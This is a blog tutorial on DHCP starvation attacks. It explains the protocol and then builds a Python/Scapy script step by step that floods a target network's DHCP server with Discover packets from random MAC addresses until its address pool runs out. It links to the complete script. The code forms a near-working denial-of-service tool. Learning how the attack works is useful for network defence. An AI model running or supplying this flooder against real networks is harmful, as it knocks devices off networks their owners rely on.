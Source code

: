 ```yaml
---
title: Performing a DHCP starvation attack
pubDate: "March 09 2024"
description: Understanding and performing a DHCP starvation attack over DHCP servers and networks.
tags: ["security", "networks", "hacking", "python"]
heroImage: "/blog/2024-03-09-dhcp-starvation-attack/logo.png"
---
```


To understand what a DHCP starvation attack is, it is important to understand what a DHCP server is and how this protocol works. A DHCP server is a network component in charge of assigning IPs to different devices, associating the physical or MAC address to an IP. This process allows communication between the different devices, using the assigned IPs to identify each other and communicate. The DHCP protocol has up to 4 phases that make it up.

A "DHCP starvation" attack is a type of malicious attack targeting networks that use the DHCP protocol for IP address allocation. The goal of this attack is to exhaust all the IP addresses available to the DHCP server in order to make it impossible for new devices to connect to the server, even causing a denial of service attack.

Next we are going to see how to do a small proof of concept of this attack, developing a Python script. The first thing to do is to install the necessary dependencies, in this case, the network packet manipulation library "Scapy".

```sh
pip install scapy
```

Let's start with the python code. Before starting to build packets, it is necessary to configure Scapy to ignore IP address verification responses, since we will be sending packets with forged IP addresses.

```python
conf.checkIPaddr = False
```

Once the basic configuration of Scapy is done, we move on to define our main function "starve". This function will receive a dictionary of parameters. It is not the best way to do this step, but for a quick script it is enough. The main parameters we will use will be: Delay time between each packet sent, network to attack and network interface through which we want to perform the attack.

```python
def starve(params):
    delay = params['delay'] if params.get('delay') is not None else 0.5
    network = params['network'] if params.get('network') is not None else '192.168.1.0/24'
    interface = params['interface'] if params.get('interface') is not None else 'eth0'
    is_verbose = params['verbose'] if params.get('verbose') is not None else 1
```

In the main loop of the starve function, we generate DHCP Discover packets with random MAC addresses, requesting specific IP addresses within the target network.

```python
for ip_dir in ips_for_feeding:
    src_mac = RandMAC()

    ether = Ether(src=src_mac, dst='ff:ff:ff:ff:ff:ff')
    ip = IP(src='0.0.0.0', dst='255.255.255.255')
    udp = UDP(sport=68, dport=67)
    bootp = BOOTP(op=1, chaddr=src_mac)
    dhcp = DHCP(options=[
        ('message-type', 'discover'), 
        ('requested_addr', str(ip_dir)),
        ('end')])

    packet = ether / ip / udp / bootp / dhcp

    sendp(packet, iface=interface, verbose=is_verbose)

    sleep(delay)
```

Finally and outside the function, we will add the command line arguments so that the user can specify all the above parameters. This will be done using the "argparse" library already included in python.

```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument(
        '--network', 
        type=str,
        nargs='?',
        help='IP address of the network (e.g. 192.168.1.0/24)',
    )
    parser.add_argument(
        '--delay', 
        type=str,
        nargs='?',
        help='Delay in seconds for each packet',
    )
    parser.add_argument(
        '--interface', 
        type=str,
        nargs='?',
        help='Interface to attack (eth0 as default)',
    )
    parser.add_argument(
        '--verbose', 
        type=int,
        nargs='?',
        help='Verbose mode 1=ON 0=OFF (1 as default)',
    )
    params = vars(parser.parse_args())
    starve(params)
```

The complete script code: [dhcp_starvation_attack.py](https://gist.github.com/jparadadev/ade6fa41d8e86f35c04bac09af86aa09)


